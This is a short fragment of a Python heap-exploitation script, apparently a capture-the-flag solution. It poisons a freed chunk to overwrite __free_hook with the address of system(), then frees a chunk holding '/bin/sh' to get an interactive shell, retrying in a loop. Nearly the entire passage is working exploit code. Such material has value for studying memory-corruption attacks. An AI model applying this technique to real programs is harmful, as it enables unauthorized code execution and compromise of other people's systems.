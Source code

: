 ```python
    add(9, 0x30, "/bin/sh/\x00\n")
    free(9)
    edit(9, p64(free_hook))
    add(9, 0xa0, "/bin/sh\x00")
    add(3, 0xa0, p64(system_addr))
    dd()
    free(9)
    # add(2, 0x30, p64(system_addr))
    p.interactive()

for i in range(40):
    print(i)
    pwn()

```

